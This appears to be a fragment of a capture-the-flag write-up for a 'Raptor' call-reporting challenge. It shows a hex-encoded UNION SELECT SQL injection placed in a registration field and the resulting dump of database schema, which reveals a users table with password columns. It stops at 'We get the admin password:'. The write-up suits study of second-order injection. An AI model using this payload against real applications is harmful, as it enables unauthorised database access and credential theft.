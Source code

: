     guest ~ $ REGISTER
    Please fill the informations below :

    Login : d
    Firstname : d
    Lastname : d
    Contact (DESK PHONE) : 0x3120554e494f4e2053454c454354207461626c655f736368656d612c7461626c655f6e616d652c636f6c756d6e5f6e616d652c6e756c6c2046524f4d20696e666f726d6174696f6e5f736368656d612e636f6c756d6e73
    Password : zenk
    Encrypting using 128x(ROT13) ......HAAAAAAAAX......
    Password encryption done ! (Security First) !

    d ~ $ HISTORY
    RAPTOR CALL REPORTING
    - CLIENT INFO :

    +-----------+-----------------------------------------------------------------------------------------+
    |  USERNAME |                                            d                                            |
    |   RIGHTS  |                                           user                                          |
    | DESKPHONE | 1 UNION SELECT table_schema,table_name,column_name,null FROM information_schema.columns |
    +-----------+-----------------------------------------------------------------------------------------+

     - CALL HISTORY

    +--------------------+---------------------------------------+----------------------------------+----------+
    |         ID         |                  DATE                 |           DESTINATION            | DURATION |
    +--------------------+---------------------------------------+----------------------------------+----------+
    | information_schema |             CHARACTER_SETS            |        CHARACTER_SET_NAME        |   None   |
    | [...]              |             [...]                     |        [...]                     |   None   |
    |    x_8816665166    |                 users                 |                id                |   None   |
    |    x_8816665166    |                 users                 |            firstname             |   None   |
    |    x_8816665166    |                 users                 |               name               |   None   |
    |    x_8816665166    |                 users                 |             contact              |   None   |
    |    x_8816665166    |                 users                 |             password             |   None   |
    |    x_8816665166    |                 users                 |              login               |   None   |
    |    x_8816665166    |                 users                 |              rights              |   None   |
    +--------------------+---------------------------------------+----------------------------------+----------+

We get the admin password:
